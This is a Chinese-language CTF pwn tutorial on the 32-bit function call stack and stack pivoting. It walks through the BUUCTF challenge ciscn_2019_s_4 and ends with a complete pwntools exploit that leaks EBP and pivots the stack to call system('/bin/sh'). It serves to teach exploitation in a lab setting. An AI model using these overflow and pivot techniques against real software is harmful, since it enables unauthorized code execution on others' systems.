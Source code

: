 # [PWN.0x00]函数调用栈结构与栈迁移


**前置知识：**[汇编语言（第4版）](https://book.douban.com/subject/35038473/)前半本

> 注：本文适用于32位程序，示意图中上为高地址区，下为低地址区。若方框中字体为蓝色表示此处内存的地址，为黑色表示此处内存存储的值。**示意图中leave均表示leave|ret**

#### 函数调用栈的基本结构

**一些寄存器的作用：**

EIP：存储着下一条指令的地址，每执行一条指令，该寄存器变化一次。

EBP：存储着当前函数栈底的地址，通过将其与偏移地址相加减获取变量的地址。

ESP：始终指向栈顶。

在进入一个函数时，会执行如下操作。

```assembly
push eip+4
push ebp
mov ebp,esp
```

在执行完退出时，会执行如下操作。

```assembly
mov esp,ebp
pop ebp

pop eip
```

即leave和ret。

整个过程描述起来就是，先将函数执行完成之后应当去执行的语句（eip+4）和主程序的的基址（ebp）压入栈中，然后再将ebp指向栈底。在函数执行完之后，再进行一遍上述过程的逆过程。

函数调用栈工作时的结构如下图：

![](1.svg)

其中val0地址处存储主程序传入的参数，如果有多个传入参数，它们将按照从右到左的顺序被push入栈中，val1~3为函数申请的局部变量。它们将按照申请的顺序被放入栈中。举例来讲，形如：

```c
void func(int a){
    int b,c;
    char s[10];
}
```

这样的函数，a将被存入val0，b将被存入val1，c将被存入val2，s将被存入val3。

考虑最基础的栈溢出题目，由于程序将按照地址从低到高的顺序存储字符串变量，所以当s的数据由选手掌控且溢出空间足够大时，s将溢出到val2，val3，甚至旧ebp，eip的位置上。所以选手就可以控制旧ebp，eip处的内容，实现劫持程序返回，让程序执行恶意代码的目的。

但有时候，选手能掌控的数据量很有限，不足以支持我们完成过于复杂的劫持指令，对于这种情况，其中一种解题方法就是栈迁移。



#### 栈迁移

栈迁移的核心思想是劫持当前函数已经压入栈中的eip段，将其内容改为一次leave，同时修改旧ebp段，借助旧ebp为跳板，实现对esp的控制，进而在下一次ret中，修改eip的值，实现目的。

也就是说，要构造栈中数据如图所示：

![2](2.svg)

至于为什么要-4，后面模拟的过程中读者自能体会。

好了，现在当前函数已经执行完了，程序将自行执行一次leave和ret。执行之后的结果如图：

![3](3.svg)

然后程序会执行eip指向的地址的命令，即再执行一次leave，ret，执行后栈的情况如图：

![4](4.svg)

这样我们就完成了借助ebp为跳板，将esp指向目标eip的位置，控制程序在最后一次ret（即pop eip）的时候，将eip赋值成了我们想让它执行的函数的地址。



#### 例题：ciscn_2019_s_4

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_4)

所谓“从零开始的Pwner生活”第一题，差点直接给我整劝退。

惯例checksec，只开了NX。

ida分析得到：

```c
int vul()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  memset(buf, 0, 0x20u);
  read(0, buf, 0x30u);
  printf("Hello, %s\n", buf);
  read(0, buf, 0x30u);
  return printf("Hello, %s\n", buf);
}
```

发现只有8个字节的溢出空间，不足以支持一次完整的ROP，但是可以读两次，且第一次读入有输出，因此可以利用第一次读入来泄露ebp（注：这里的ebp指的是vul函数的ebp，即read函数栈帧中的旧ebp）。

第一次读满0x28个字节，由于printf输出的时候会一直输出到\x00为止，所以会把ebp也一起输出来。

在第二次输入的时候构造一个栈迁移的结构，将栈迁移到我们能控制的buf段。

![5](5.svg)

结合文章开头函数调用栈的知识，不难理解，'bin/sh'和buf_addr+12都将作为输入的参数输入到system函数中，所以程序最终执行的效果就是获取了shell。

注意到我们需要填入的信息中需要我们预先知道buf的地址，可以在本地动态调试（gdb）中获取ebp和buf地址的差值，然后作差得到。**不要想当然地认为buf和ebp的差值就是0x28，这只是在read函数中的情况，此处的ebp指的是vul函数中的ebp，即read函数中ebp指向的oldebp。**

EXP：

```python
from psutil import process_iter
from pwn import *
context(arch="i386",log_level="debug")
op=0
e=ELF("ciscn-s-4.bin")
sys_addr=e.symbols['system']
leave_addr=0x080484B8
def main():
    if op==1:
        zeroy=process("ciscn-s-4.bin")
    else:
        zeroy=remote("node4.buuoj.cn",27827)
    payload1=b'a'*0x24+b"bbbb"
    zeroy.recvuntil("name?")
    zeroy.send(payload1)
    zeroy.recvuntil("bbbb")
    ebp_addr=u32(zeroy.recv(4))
    print("ebp_addr: ",hex(ebp_addr))
    buf_addr=ebp_addr-0x38
    payload2=p32(sys_addr)+b'aaaa'+p32(buf_addr+12)+b'/bin/sh\x00'
    payload2=payload2.ljust(0x28,b'a')+p32(buf_addr-4)+p32(leave_addr)
    zeroy.send(payload2)
    zeroy.interactive()
main()
```


